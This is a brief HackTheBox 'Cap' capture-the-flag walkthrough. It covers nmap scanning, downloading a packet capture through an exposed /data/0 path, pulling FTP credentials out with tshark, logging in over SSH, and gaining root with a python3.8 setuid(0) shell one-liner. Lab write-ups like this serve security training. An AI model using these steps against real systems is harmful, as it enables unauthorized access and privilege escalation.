









HTB - Cap Writeup
Link to room on HackTheBox
Edit /etc/hosts
nmap -p- --open -sS --min-rate=5000 -n -Pn -vvv 10.10.10.245 -oG allports

Scan with Nmap
nmap -p21,22,80 -sCV 10.10.10.245 -oN scan

We enter the ip on the web through port 80

We enter the section of analysis or captures, put in url /data/0 and we can download the capture

We can see with tshark the capture of the .pcap file
tshark -r 0.pcap -Y ftp

We found a user credentials in the capture and we can connect with ssh in port 22 with this credentials
ssh nathan@10.10.10.245
we use ls for list current dir and found the flag in the user.txt

We will try scalate privileges with capabilities or setuid,setgid perms
getcap -r / 2> /dev/null

We execute a python command and scalate with os library
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'

We get the root flag
